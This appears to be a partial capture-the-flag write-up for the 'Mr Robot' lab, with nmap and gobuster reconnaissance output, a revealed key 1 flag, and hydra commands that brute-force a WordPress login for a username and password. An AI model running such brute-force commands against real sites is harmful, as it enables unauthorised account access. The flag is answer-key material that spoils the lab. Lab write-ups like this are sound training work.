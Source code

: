 #Mr Robot CTF

## export IP=10.10.252.20

## nmap -v -sC -sV -oA scans/initial $IP

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open   ssl/http Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
|_SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).

## Key 1

gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 100 -q -o scans/gobuster-small.txt

/sitemap              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2606]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]

http://10.10.252.20/robots.txt

What is key 1?
key-1-of-3.txt -> 073403c8a58a1f80d943455fb30724b9

## Key 2

Go to /wp-login

use burpsuite to understand user/password post parameter syntax

hydra -L fsocity.dic -p test $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

Elliot

hydra -l Elliot -P fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
